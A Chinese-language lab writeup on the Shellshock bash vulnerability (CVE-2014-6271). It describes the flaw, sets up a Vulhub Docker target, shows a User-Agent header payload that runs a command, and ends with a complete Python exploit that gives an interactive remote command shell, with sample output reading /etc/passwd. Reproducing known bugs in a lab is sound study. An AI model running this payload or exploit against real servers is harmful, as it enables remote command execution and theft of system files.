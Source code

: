 # Shellshock 破壳漏洞 CVE-2014-6271

## 漏洞描述

bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。

此前已验证Red Hat、 CentOS 、Ubuntu 、Fedora 、Amazon Linux 、OS X 10.10均拥有存在CVE-2014-6271漏洞的bash版本，以bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用bash的Unix、Linux、Mac OS X，针对这些操作系统管理下的数据存在高危威胁。

## 环境搭建

Vulhub执行如下命令：

```
docker-compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

## 漏洞复现

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：

![image-20220303150635558](./images/202203031506623.png)

同样的数据包访问safe.cgi，不受影响：

![image-20220303150542827](./images/202203031505938.png)

## 漏洞EXP

```python
#!/usr/bin/python

# Successful Output:
# # python shell_shocker.py <VulnURL>
# [+] Attempting Shell_Shock - Make sure to type full path
# ~$ /bin/ls /
# bin
# boot
# dev
# etc
# ..
# ~$ /bin/cat /etc/passwd

from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import input
import sys, urllib.request, urllib.error, urllib.parse

if len(sys.argv) != 2:
        print("Usage: shell_shocker <URL>")
        sys.exit(0)

URL=sys.argv[1]
print("[+] Attempting Shell_Shock - Make sure to type full path")

while True:
        command=input("~$ ")
        opener=urllib.request.build_opener()
        opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ; '+command)]
        try:
                response=opener.open(URL)
                for line in response.readlines():
                        print(line.strip())
        except Exception as e: print(e)

```

